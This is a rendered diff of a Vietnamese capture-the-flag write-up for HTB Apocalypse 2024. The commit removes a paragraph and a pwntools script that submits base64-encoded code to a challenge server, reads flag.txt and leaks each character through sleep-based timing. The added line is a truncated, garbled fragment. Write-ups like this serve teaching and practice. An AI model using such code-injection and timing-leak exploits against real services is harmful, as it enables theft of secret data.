

Before and after one commit to MinhFanBoy/CTF, a Markdown page: WU CTF/HTB_Apocalypse_2024.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/WU CTF/HTB_Apocalypse_2024.md
+++ b/WU CTF/HTB_Apocalypse_2024.md
@@ -1397,43 +1397,4 @@ time.sleep(ord(flag[{i}]) / 10)
 ```
 Máy chủ sẽ chạy nó, trong khi nó vẫn thỏa mãn yêu cầu của sever và cũng leak cho chúng ta thông tin thêm về flag.
 
-Từ đó, ta gửi yêu cầu nhiều lần lên lên máy chủ, mỗi lần đọc từng ký tự của flag khi đó chương trình sẽ tạm dừng chương trình một khoảng thời gian đúng bằng (ord(flag) / 10) nên ta tính toán khoảng thời gian chênh lệch là ta có flag ( trong đoạng code có bị trừ đi cho 2 là do một vài yếu tố mội trường như tốc độ mang, máy tính ảnh hưởng tới thời gian)
-
-```py
-
-import time
-from base64 import *
-from pwn import *
-
-def main() -> None:
-
-    flag = ""
-
-    for i in range(100):
-
-        code = f"""
-import time
-flag = open('flag.txt', 'r').read()
-time.sleep(ord(flag[{i}]) / 10)
-
-"""
-        s = remote("94.237.63.93", 38070)
-
-        s.recvuntil(b'Enter the program of many languages: ')
-        start = time.time()
-        s.sendline(b64encode(code.encode()))
-        s.recvuntil(b'[+] Completed. Checking output')
-        end = time.time()
-
-        flag += chr(int((end - start)* 10) - 2)
-        print(flag)
-
-        s.close()
-
-        if flag[-1] == "}":
-            break
-
-if __name__ == "__main__":
-    main()
-
-```
+Từ đó, ta gửi yêu cầu nhiều lần lêmạng)
````
